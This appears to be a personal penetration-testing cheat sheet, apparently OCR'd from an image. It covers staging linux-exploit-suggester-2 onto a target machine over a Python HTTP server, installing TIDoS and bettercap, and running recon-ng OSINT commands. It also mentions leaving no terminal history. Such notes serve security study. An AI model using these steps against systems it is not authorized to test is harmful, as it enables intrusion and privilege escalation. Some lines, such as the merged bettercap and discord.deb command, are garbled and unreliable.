 ```exits the terminal without saving history ```
# https://null-byte.wonderhowto.com/how-to/find-exploits-get-root-with-linux-exploit-suggester-0206005/
# 1. set up http server on host computer 
# 2. use client to upload the exploit (wget les2.pol--> [abbreviated name]) 
# 3. 
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
python3 -m SimpleHttpServer ## log the server IP 
# or 
python2 -m SimpleHttpServer 
### GO TO TARGET COMPUTER 
wget xxx.xxx/les2.pl # from SimpleHttpServer on to target machine 
chmod +x les2.pl 
./les2.pl ## to run the module --> its on the target PC 

###### TIDoS ---> probe webapps for vulnerabilities 
# https://null-byte.wonderhowto.com/how-to/probe-websites-for-vulnerabilities-more-easily-with-tidos-framework-0193854/
git clone https://github.com/0xinfection/tidos-framework.git
cd tidos-framework
sudo apt-get install libncurses5 libxml2 nmap tcpdump libexiv2-dev build-essential python-pip default-libmysqlclient-dev python-xmpp
sudo pip2 install -r requirements.txt 
chmod +x install
./install
sudo tidos 


### RECON-NG --> contains modules simular to metasploit 
##### GREAT FOR OSNIT 
git clone 'https://github.com/lanmaster53/recon-ng'
workspaces add ws1 ## CERATE WORKSPACE
show workspaces 
workspaces select default 
show modules 
add domains ### USE THIS THIS TO ADD TO DATA TABLE FOR EXPLOIT 
show domains 
add companies 
show companies 
search whois # displays modules that exist for whois 
use whois_pocs 
show info ## displays module info and the data structure user provided 
show # displays information to be used in console 
show dashboard ## shows all current activities / tasks peformed 
add # need to 
#####################################

git clone https://github.com/evilsocket/bettercap
cd bettercap
bundle install
gem build bettercap.gemspec
sudo gem install bettercap*.gem


sudo apt-get install build-essential ruby-dev libpcap-dev
apt install golang
go get github.com/bettercap/bettercapsudo apt install ./discord.deb
cd $GOPATH/src/github.com/bettercap/bettercap
make build
sudo make install
sudo bettercap
bettercap 

```